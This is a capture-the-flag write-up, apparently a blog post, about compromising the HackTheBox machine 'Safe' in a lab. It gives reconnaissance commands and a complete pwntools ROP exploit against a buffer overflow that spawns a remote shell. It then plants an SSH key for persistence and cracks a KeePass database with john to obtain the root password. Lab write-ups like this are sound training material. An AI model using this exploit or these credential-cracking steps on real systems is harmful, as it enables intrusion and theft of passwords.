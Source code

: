```yaml
---
title: Safe
date: 2024-01-03 17:41:00 +0100
categories: [Boxes, HackTheBox]
tags: [rop, buffer-overflow, keepass, john]
img_path: /assets/images/Safe
math: true
---
```



This machine will challenge our pwning skills on a binary hosted by the machine. After spawning a shell, there are some files in the user home directory which are related to KeePass. We can crack the file and get root's password. Let's dive in!


## Recognisement

First of all, let's send an ICMP packet to the victim machine, whose IP is `10.129.227.223`, to see if we have connection to the machine:

![ICMP packet](ping.png)

So we have connectivity, and furthermore, according to the TTL, we can think it is a Linux machine (which HTB tells us, but anyway :D).

Let's find out the open port Safe has. To do so, we can run:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.227.223 -oG allPorts
```

and this is the importante piece of output:

![open ports](open-ports.png)

We can see it has ports **22** (SSH), **80** (HTTP) and **1337** (we will see what this is). Now, we are going to gather some more information about the services running in those ports. We can run the following command:

```bash
sudo nmap -p22,80,1337 -sCV 10.129.227.223 -oN targeted
```

which will save the output in a file called `targeted`. We wait a couple of minutes and this is the result:

![nmap output](nmap-output.png)

So, all in all:

- Outdated version of SSH (vulnerable to username enumeration)
- HTTP webpage using Apache
- Still weird port 1337 that we will further investigate.

But first, let's go with the HTTP service. When we write the IP in the browser, we are just presented with de default Apache webpage:

![apache default](apache-default.png)

So nothing interesting there. Let's do some fuzzing, to try to get some other resources. This time we'll use gobuster:

```bash
gobuster dir -t 100 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.227.223/
```

but this finds nothing. Maybe we can fuzz PHP, HTML or TXT files? Let's give it a shot:

```bash
gobuster dir -t 100 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.227.223/ -x php,html,txt
```

But again, nothing useful. Let's take a closer look at the webpage. If we see the HTML source code we will see this:

![myapp-clue](myapp-clue.png)

So, apparently there is an app running on port 1337 whose code can be downloaded somehow? If we browse `http://10.129.227.223:1337` we definately can see an app is running:

![myapp](myapp.png)

The comment in the HTML says that it can be downloaded. Maybe the code is in `http://10.129.227.223/myapp`? If we go to that endpoint... Bingo! That downloads a file called `myapp`.


## Getting user shell. Pwning time!

Let's take a look at it. First of all, let's run this command to see what file that is

```bash
file myapp
```

![file command](file-myapp.png)

So it looks like a binary, dynamically linked and not stripped. This will be helpful to understand it when decompiling it. 

To get a better feeling about what the binary is doing, we can open it with **Ghidra**. After decompiling it, we see the main function. This is what it does:

![main function](main-function.png)

So it is executing the `uptime` command, and then is taking the user input and printing it. Notice that it is saving the user input in a 112-byte buffer, but it is not checking that the user input indeed fits in that buffer. If we run that command and send a lot of 'A's, this is what happens:

![bof](bof.png)

So it looks like it is vulnerable to Buffer Overflow. Let's run `checksec` to see which protections it has enabled:

```bash
checksec ./myapp
```

![checksec](checksec.png)

So we see that is has **NX** enabled, so it won't be as easy as writing some shell code in the stack and executing it. Maybe we can try to use some gadgets and functions that the binary already has and execute some code.

What I first took into account is that the code is already using the `system` function. Therefore, if I could get the string "/bin/sh" somehow, I could spawn a shell. Let's check the writable sections in the binary. We can do that using `radare2`.

```bash
radare2 myapp
[once inside radare2]
aaa
iS
```

![writable sections](writable-sections.png)

These are the writable sections of the binary. We could write the string "/bin/sh" in one of those. We could take, for example, **.data**. The easiest way to do that is to call the `gets` function (that the binary is using as well). This is the python script I wrote to exploit that and spawn a shell:

```python
#!/usr/bin/env python3

from pwn import *

binary_path = "../content/myapp"
ip = "10.129.227.223"
port = 1337
offset = 120


def getshell(r, elf, rop):
    POP_RDI = rop.find_gadget(["pop rdi", "ret"])[0]
    GETS = elf.sym["gets"]
    
    for section in elf.sections:
        if section.name == ".data":
            DATA = section["sh_addr"]

    SYSTEM = elf.sym["system"]

    payload = b"A"*offset
    payload += p64(POP_RDI)
    payload += p64(DATA)
    payload += p64(GETS)
    payload += p64(POP_RDI)
    payload += p64(DATA)
    payload += p64(SYSTEM)

    r.recv()
    r.sendline(payload)


def main():

    elf = ELF(binary_path)
    rop = ROP(binary_path)

    r = remote(ip, port)

    getshell(r, elf, rop)

    r.interactive()


if __name__ == "__main__":
    main()
```

This script will wait for you to write a command (using `gets`). If you write `sh`, it will spawn a shell, and you can continue writing commands.

![Shell spawn](bof-shell.png)

And there we go! To make things easy, I will copy my public SSH key and paste it in the path `/home/user/.ssh/authorized_keys`. Now, I can simply SSH into the user "user" account without entering a password.

![ssh access](ssh.png)

## Privilege escalation

If we cd into the user's home directory, we see these files:

![list files of user's home](ls-home.png)

So, a `MyPasswords.kdbx` (which is a Keepass password database 2.x KDBX) and some photos. Let's transfer them to my computer.

```bash
scp user@10.129.227.223:/home/user/IMG* .
scp user@10.129.227.223:/home/user/MyPasswords.kdbx .
```

Whenever we have a `.kdbx` file, we can try to bruteforce the **master key** of the passwords database. A cool thing that KeePass has is that you can unlock your file using both, a **master file** and a **master password**. Maybe one of those photos is the master file? 

We can use **keepass2john** to generate some hashes that we can later crack using john:

```bash
keepass2john MyPasswords.kdbx >> hashes.txt
for file in ./IMG*; do keepass2john -k $file MyPasswords.kdbx >> hashes.txt; done
```

And now we can use **rockyou.txt** to crack the hashes:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

After a couple of minutes...

![john crack](cracked.png)

So now we can open the passwords database file with the KeePass application. After some tries to guess which one of the images is the master key, I can open the file and get the "Root password". Copying it and executing `su root`, we get root access!!



I hope you found this useful!
